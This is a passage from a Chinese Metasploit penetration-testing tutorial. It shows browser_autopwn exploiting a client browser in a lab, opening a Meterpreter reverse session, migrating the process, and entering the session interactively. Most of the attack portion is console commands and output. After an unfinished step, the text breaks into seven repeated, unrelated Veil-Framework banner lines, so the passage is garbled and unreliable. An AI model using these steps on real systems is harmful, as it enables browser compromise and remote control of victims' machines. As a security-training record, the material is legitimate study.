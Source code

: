 ```
[*] Server started.
[*] 192.168.41.146  browser_autopwn - Handling '/filetypes'   #访问主机的客户端
[*] 192.168.41.146  browser_autopwn - Handling '/filetypes'
[*] Meterpreter session 1 opened (192.168.41.234:3333 -> 192.168.41.146:1073) at 2014-04-30 19:16:54 +0800
[*] Sending stage (769024 bytes) to 192.168.41.146
[*] Session ID 1 (192.168.41.234:3333 -> 192.168.41.146:1071) processing InitialAutoRunScript 'migrate -f'
[+] Successfully migrated to process
[*] Current server process: qjRc.exe (1824)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 1260 
```

以上输出信息是一个漏洞攻击过程。此过程中输出的内容较多，由于篇幅的原因，中间部分内容使用省略号（……）取代了。从输出的过程中看到客户端 192.168.41.146 访问了 192.168.41.234 主机，并成功建立了一个活跃的会话。该会话是由客户端访问后产生的。当渗透测试启动后，在客户端的 IE 浏览器中输入[`IP`](http://IP) Address:8080/filetypes 访问主机，将产生活跃的会话。

（9）从第（8）步的输出结果中可以看到，成功建立的会话 ID 为 1。为了激活此会话，执行命令如下所示：

```
msf auxiliary(browser_autopwn) > sessions -i 1
[*] Starting interaction with 1…
meterpreter > 
```

从输出的结果中可以看到，启动了交互会话 1 进入到了 Meterpreter 命令行。

（10）查看能运行的 Meterpreter 命令列表。执行命令如下所示：


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework